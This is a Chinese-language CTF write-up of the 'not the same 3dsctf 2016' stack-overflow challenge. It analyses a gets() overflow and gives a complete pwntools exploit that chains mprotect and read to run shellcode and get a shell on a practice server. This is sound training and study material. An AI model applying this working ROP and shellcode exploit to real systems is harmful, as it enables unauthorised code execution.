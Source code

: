 ```yaml
---
author: 
  name: Zephyr
title: not the same 3dsctf 2016
date: 2022-3-22 13:21:03
permalink: /pages/2e1547494524d189
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# not the same 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+Fh] [ebp-2Dh]

  printf("b0r4 v3r s3 7u 4h o b1ch4o m3m0... ");
  gets(&v4);
  return 0;
}
```

部分函数表如下

![not_the_same_3dsctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/not_the_same_3dsctf_2016_1.png)

## 思路分析

1. 目前信息：
   - main函数内明显的栈溢出漏洞
   - 函数表内有mprotect函数
   - No PIE
   - NX 保护开启
1. 思路：
   - 可栈溢出，有mprotect函数，考虑劫持程序流到mprotect函数处给一段地址区域添加读写及执行权限，将shellcode写入该处，二次返回该处执行获得shell

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
# 使用read向内存中写入shellcode
padding = 45
mem_addr = 0x080EB000
mem_len = 0x1000
mem_type = 7
pop_3times_ret = 0x0806FCC8
# pop 3次将上个函数的3个参数弹出，调整栈布局
shellcode = asm(shellcraft.sh())
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, mem_addr, mem_len,mem_type, read_addr, pop_3times_ret, 0, mem_addr, 0x100, mem_addr])
io.sendline(payload)
io.sendline(shellcode)
# 发送shellcode
io.interactive()
```